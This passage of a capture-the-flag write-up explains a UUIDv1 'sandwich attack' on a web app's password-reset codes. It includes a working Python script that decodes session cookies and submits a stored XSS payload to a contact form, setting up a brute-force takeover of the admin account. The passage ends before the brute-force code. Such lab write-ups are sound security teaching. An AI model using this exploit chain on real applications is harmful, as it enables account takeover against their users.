 We know that the reset code will also be present in session cookies as well but we can't access session cookies as they have HttpOnly flag set.

Previously, we saw that the application is generating UUIDv1 for reset code. After searching on google, we came to know that UUIDv1 is not safe and has a known attack called Sandwich attack. 

Read more about Sandwich attack here: https://book.hacktricks.xyz/pentesting-web/uuid-insecurities#sandwich-attack

All UUIDs of this version are incremental with time if they are generated on same machine. Meaning, if we have a UUID generated on time A and have another UUID generated on time B on the same machine, then we can generate all potential UUIDs from time A to time B.

So if we register a user and get 2 reset codes for him, one before malicious post request on `/contact` and one after it, we can be sure that the reset code for *admin* user will be present in between the 2 UUIDs we generated for our user.

How can we launch this sandwich attack in our case?
1) Make a new user.
2) Get 1st reset code for our user.
3) Submit a malicious contact query to trigger reset code for *admin* user.
4) Get 2nd reset code for our user.
5) Generate all UUIDs between our first and second reset code.
6) Launch a brute force attack on `/reset/password/<reset_code>` endpoint with all generated UUIDs to change the password of *admin* user.

## Exploitation (!)

First, let's make a new user, get 1st reset code for that user, then send a malicious POST request on `/contact` endpoint to trigger reset code for *admin* and then get a 2nd reset code for our user.

```python
import requests, base64, json, os

IP = '<CHALLENGE_SERVER>'
PORT = '1337'

# Creating new user
requests.post('http://'+IP+':'+PORT+'/register', data='username=test&email=test@test.com&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})

# Login with new user and trigger the reset code
session = requests.Session()
session.post('http://'+IP+':'+PORT+'/', data='username=test&password=123', headers={'Content-type':'application/x-www-form-urlencoded'})
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc1 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

# Now sending our XSS payload to trigger reset code for admin user 
requests.post('http://'+IP+':'+PORT+'/contact', data='name=123&email=a@a.com&msg=<script>fetch(\'http://127.0.0.1:1337/resetcode\')</script>', headers={'Content-type':'application/x-www-form-urlencoded'})

# Again fetching new reset code for our user
session.get('http://'+IP+':'+PORT+'/resetcode')
cookie = session.cookies.get('session')
rc2 = json.loads(base64.b64decode(cookie[0:cookie.index('.')]+'==').decode('utf-8'))['reset_code']

print("[+] First reset code: " + rc1)
print("[+] Second reset code: " + rc2)
```
